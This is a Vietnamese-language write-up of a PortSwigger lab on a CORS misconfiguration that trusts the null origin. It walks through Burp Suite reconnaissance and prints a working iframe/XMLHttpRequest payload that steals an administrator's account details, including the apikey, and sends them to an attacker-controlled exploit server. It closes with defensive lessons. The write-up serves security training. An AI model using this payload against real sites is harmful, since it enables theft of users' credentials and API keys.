





# Write-ups: CORS vulnerability with trusted null origin

### Tổng quan
Khai thác lỗ hổng Cross-Origin Resource Sharing (CORS) trong ứng dụng, nơi cấu hình CORS cho phép origin `null` được tin cậy, phản hồi `Access-Control-Allow-Origin: null` khi nhận header `Origin: null`. Kết hợp với `Access-Control-Allow-Credentials: true`, kẻ tấn công có thể sử dụng iframe với `src="data:text/html,..."` (tạo origin `null`) để gửi yêu cầu cross-origin và lấy thông tin nhạy cảm. Sử dụng payload JavaScript trong Exploit Server để lấy thông tin tài khoản administrator (bao gồm `apikey`) từ endpoint `/accountDetails` và gửi đến máy chủ của kẻ tấn công, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CORS bằng cách sử dụng origin `null` trong iframe để lấy thông tin tài khoản `administrator` (`apikey`) từ endpoint `/accountDetails` thông qua `XMLHttpRequest`, gửi dữ liệu đến máy chủ của kẻ tấn công và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và gửi yêu cầu GET đến `/accountDetails`
- **Phản hồi**:
    ```json
    {
    "username": "wiener",
    "email": "",
    "apikey": "Gtq2PItOquvXJvvPLnJaIIRlydYRSwh3",
    "sessions": [
        "KR8ikpskfjW5at2SaLh5usMCcsBNCXCr"
    ]
    }
    ```
    - Header: `Access-Control-Allow-Credentials: true`, cho thấy ứng dụng cho phép gửi cookie phiên trong các yêu cầu `cross-origin`.
    - Không có `Access-Control-Allow-Origin` trong phản hồi mặc định:
        

2. **Kiểm tra cấu hình CORS**
- Gửi yêu cầu GET `/accountDetails` đến Burp Repeater, thêm header `Origin: null`:
- Phản hồi:
    - Header: `Access-Control-Allow-Origin: null`
    - Xác nhận lỗ hổng CORS: ứng dụng cho phép origin null và gửi cookie phiên với `Access-Control-Allow-Credentials: true`:
        

3. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server sử dụng iframe với `src="data:text/html,..."` để tạo origin `null` và chạy script lấy thông tin tài khoản:
    ```java
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a4000e3037e363580710339002500f9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ab900eb035a36ff800502a901060050.exploit-server.net/log?key='+this.responseText;
    };
    </script>"></iframe>
    ```
    
- **Ý tưởng payload**:
    - Iframe với `src="data:text/html,..."` tạo origin null, phù hợp với cấu hình CORS của ứng dụng (`Access-Control-Allow-Origin: null`).
    - Thuộc tính `sandbox="allow-scripts allow-top-navigation allow-forms"` cho phép script chạy, điều hướng và gửi form.
    - Script sử dụng `XMLHttpRequest` với `withCredentials=true` để gửi yêu cầu GET đến `/accountDetails`, lấy thông tin tài khoản (bao gồm `apikey`) của người dùng hiện tại (`administrator`).
    - Hàm `reqListener` gửi phản hồi (`responseText`) đến endpoint `/log` trên Exploit Server.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Phản hồi được gửi đến `/log?key=...`, chứa `apikey: hUVw7zyTAdqu67D58OejUaEYCH4V6Dar`:
        

- Submit `apikey` (`hUVw7zyTAdqu67D58OejUaEYCH4V6Dar`) trong giao diện lab để hoàn thành:
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CORS bằng cách sử dụng origin `null` trong iframe với `data:text/html,...` để lấy thông tin nhạy cảm từ endpoint `/accountDetails` thông qua `XMLHttpRequest` với `withCredentials=true`.
- Nhận thức tầm quan trọng của việc không cho phép origin `null` trong cấu hình CORS, kiểm tra nghiêm ngặt danh sách origin được phép, và hạn chế sử dụng `Access-Control-Allow-Credentials: true` để ngăn chặn các cuộc tấn công CORS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng CORS với cấu hình yếu cho phép origin `null`, nhấn mạnh tầm quan trọng của việc loại bỏ origin `null` khỏi danh sách tin cậy, kiểm tra chặt chẽ origin, và hạn chế `Access-Control-Allow-Credentials` để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*